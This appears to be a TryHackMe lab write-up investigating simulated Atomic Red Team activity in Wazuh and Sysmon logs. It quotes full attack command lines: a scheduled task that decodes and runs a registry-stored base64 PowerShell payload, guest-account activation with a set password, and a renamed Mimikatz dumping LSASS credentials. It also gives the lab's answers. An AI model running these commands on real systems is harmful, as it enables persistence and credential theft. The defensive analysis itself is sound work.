

# TryHackMe – Monday Monitor (Wazuh + Sysmon Investigation)

**Scenario:**  
Swiftspend Finance is upgrading its endpoint monitoring using **Wazuh** and **Sysmon**.  
A test simulation was conducted on **Apr 29, 2024 (12:00–20:00)** to evaluate detection capabilities.  
You are tasked with investigating suspicious process activity and network connections within this timeframe.

---
 
## 🕵 Investigation Steps
1. Open **Security Events** in Wazuh dashboard.
2. Load the query `Monday_Monitor`.
3. Set time filter: **Apr 29, 2024 – 12:00 to 20:00**.
4. Begin event-by-event analysis.
 
   


---
**Task 1:** Initial access was established using a downloaded file. What is the file name saved on the host?

**Observation:**  
PowerShell downloaded `PhishingAttachment.xlsm` from `http://localhost` and saved it as:`SwiftSpend_Financial_Expenses.xlsm`

**Answer:** `SwiftSpend_Financial_Expenses.xlsm`

   


---
**Task 2:** What is the full command run to create a scheduled task?

On Windows, schtasks.exe is commonly used to create or check scheduled tasks. I observed the following value in data.win.eventdata.parentCommandLine:

**Answer :** ```\"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"```

**Purpose:** Create a scheduled task that runs a PowerShell payload (decoded from the registry) daily at 12:34 PM.

**What this does:**
1.	Adds a registry key with a base64 payload (cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=).
2.	Creates a scheduled task named DemoTask.
3.	The task runs daily at 12:34 PM, executing the base64-decoded PowerShell command.
4.	Why it’s used: This technique hides the real payload in the registry and uses a scheduled task to persist and execute it—common in persistence or malware simulation.
  
     


---
**Task 3:** What time is the scheduled task meant to run?

**Answer:** `12:34 PM`


---
**Task 4:** What was encoded?

In Task 2, I observed a registry key being added with a Base64-encoded payload: cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=
To analyze this, I used CyberChef and applied the From Base64 recipe.
Decoded Result: `ping www.youarevulnerable.thm`
This command is commonly used in red team or adversary simulation exercises to test outbound connectivity or simulate data exfiltration.

**Answer:** `ping www.youarevulnerable.thm`

  


---
**Task 5:** What password was set for the new user account?

`net.exe` is commonly used to observe or modify user accounts on Windows systems.
In the event log, I found the following:
ParentCommandLine: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass
This indicates that PowerShell was used to execute the net.exe command with execution policy bypassed — a possible sign of malicious or scripted behavior.

CommandLine: C:\Windows\system32\net.exe user guest /active:yes
This command activates the built-in Guest account.


   

Later, I observed another command:
C:\Windows\system32\net.exe user guest I_AM_M0NIT0R1NG

This shows that a password was set for the guest account using the value I_AM_M0NIT0R1NG.

**Answer:**`Password: I_AM_M0NIT0R1NG`

   


 
----
**Task 6:** What is the name of the .exe that was used to dump credentials?

Common executables used to dump credentials:
Executable Name	Description
lsass.exe (targeted)	Not the dumper itself, but the process being dumped.
procdump.exe	Microsoft Sysinternals tool often abused to dump LSASS memory.
mimikatz.exe	Well-known credential dumping tool.
dumpert.exe	A stealthy LSASS dumper.
comsvcs.dll	Sometimes used with rundll32.exe to dump memory.
I searched using these examples and found that mimikatz.exe often appears in events.
In my case, I observed the following command line:
C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit

memotech.exe is a renamed or custom version of Mimikatz, used to execute Mimikatz-like commands:

sekurlsa::minidump

sekurlsa::logonpasswords

sekurlsa::pth

These commands are known techniques for credential dumping. Therefore, memotech.exe is likely a renamed Mimikatz binary.

**Conclusion:**
memotech.exe was used to dump credentials by executing Mimikatz commands. This activity was detected via process telemetry in the commandLine.

**Answer:** `memotech.exe`

  


---
## 📚 Key Techniques Detected
- **T1566** – Phishing Attachment
- **T1053.005** – Scheduled Task / Job: Scheduled Task
- **T1027** – Obfuscated/Encoded Files
- **T1078** – Valid Accounts
- **T1003.001** – LSASS Memory Dumping

---

## 🛠 Tools Used
- **Wazuh** (SIEM)
- **Sysmon** (Event logging)
- **CyberChef** (Base64 decoding)

